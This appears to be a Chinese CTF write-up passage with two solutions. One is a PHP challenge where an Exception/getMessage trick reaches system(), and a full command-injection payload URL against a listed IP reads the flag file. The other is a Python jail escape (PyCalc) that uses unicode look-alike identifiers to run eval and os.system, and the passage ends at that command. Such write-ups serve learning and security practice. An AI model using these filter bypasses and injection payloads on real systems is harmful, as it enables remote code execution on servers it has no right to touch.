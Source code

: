 ```php
if(preg_match("/php/i", $b)) {
 die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
 die("你今天rce不了一点");
}


$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php
```

经过简单分析，可以知道这段代码是从查询字符串里面读出参数~~废话~~，然后用`$b`为**参数**，初始化了一个**名称**为`$a`的**内部类**，再从这个对象实例中的**名称**为`$c`的方法的返回**结果**中，**提取了两个子字符串**

首先可以排除`$a`和`$c`这两个参数，因为一个是内部类，一个是方法名，肯定不是可自由控制的，那就只能是`$b`为自由控制的了。

其中这里对`$a`进行的一个过滤反而给了提示，简单查查就可以发现`Exception`这个类，接受一个字符串参数作为错误消息，并且可以通过`getMessage()`方法来获取这个消息，这不就秒了吗（

你先别急，这还有对`$b`的过滤呢，最末尾已经提示了"flag.php"，但是php又在过滤范围内，怎么搞？别忘了`system()`函数调的是一个shell，可以用一些sh的语法，比如`ls` -> `ls | grep flag` -> `cat $(ls | grep flag)`，这不就读到了吗（

你还是别急，这么做之后你会发现，怎么没有回显？？？？？？

我猜测是混进源码被解释器执行了，无所谓，只要能提出flag就行了，别的行爱怎么样怎么样，再来一个grep！`cat $(ls | grep flag) | grep {` 直接筛选有`{`的行，最后回显有且仅有flag的内容

上payload `http://45.77.145.0:200/shell.php?a=Exception&b=systemcat $(ls . | grep flag) | grep {&c=getMessage&d=0&e=6&f=6&g=114`

## Misc WriteUp - PyCalc

emmm，这是个**misc**，也没有附件，只有一个~~wsrx地址~~，用nc连上，提示这是一个基于python的计算器，随便输点发现只要有`A-z`的字符出现，马上就会报hacker并切断链接。

显然，这是一个pyjail的逃逸。

既然`A-z`都不能用，那就得想办法替代`A-z`，上课摸鱼一顿搜，搜到了[PEP - 3131](https://peps.python.org/pep-3131/)，这个规范提出了可以用一部分等效的unicode字符来作为python identifier的一部分，找到对应的unicode字符表，可以写一段简单的代码进行转换

```python
"".join([(chr(ord(x)-ord("a")+ord("\U0001d44e")) if ord(x)>= ord("A") and ord(x)<=ord("z") else x) for x in "eval(input())"])
```

转换得到结果`𝑒𝑣𝑎𝑙(𝑖𝑛𝑝𝑢𝑡())`，丢到解释器里面执行，发现和`eval(input())`的行为一模一样，直接把这一行喂给题目环境，再输入指令

```python
__import__("os").system("cat lag")
```
